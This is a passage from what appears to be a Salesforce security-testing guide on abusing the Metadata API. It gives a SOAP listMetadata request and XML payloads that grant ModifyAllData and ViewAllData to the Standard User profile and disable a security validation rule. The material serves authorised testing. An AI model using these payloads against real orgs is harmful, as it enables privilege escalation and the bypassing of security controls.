 ```apex
}
```

**Impact**: Automated privilege escalation, system abuse, data manipulation.

### 3. Metadata API Security Exploitation

**Objective**: Test metadata manipulation capabilities for security control bypass.

**Metadata API Access Testing**:
```xml
<!-- Test metadata retrieval -->
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:met="http://soap.sforce.com/2006/04/metadata">
    <soapenv:Header>
        <met:SessionHeader>
            <met:sessionId>SESSION_ID</met:sessionId>
        </met:SessionHeader>
    </soapenv:Header>
    <soapenv:Body>
        <met:listMetadata>
            <met:queries>
                <met:type>Profile</met:type>
            </met:queries>
            <met:asOfVersion>52.0</met:asOfVersion>
        </met:listMetadata>
    </soapenv:Body>
</soapenv:Envelope>
```

**Security Control Bypass Attempts**:
```xml
<!-- Attempt to modify profile permissions -->
<Profile xmlns="http://soap.sforce.com/2006/04/metadata">
    <fullName>Standard User</fullName>
    <userPermissions>
        <enabled>true</enabled>
        <name>ModifyAllData</name>
    </userPermissions>
    <userPermissions>
        <enabled>true</enabled>
        <name>ViewAllData</name>
    </userPermissions>
</Profile>

<!-- Disable security validation rules -->
<ValidationRule xmlns="http://soap.sforce.com/2006/04/metadata">
    <fullName>Security_Validation_Rule</fullName>
    <active>false</active>
    <errorConditionFormula>false</errorConditionFormula>
    <errorMessage>Bypassed security validation</errorMessage>
</ValidationRule>
```
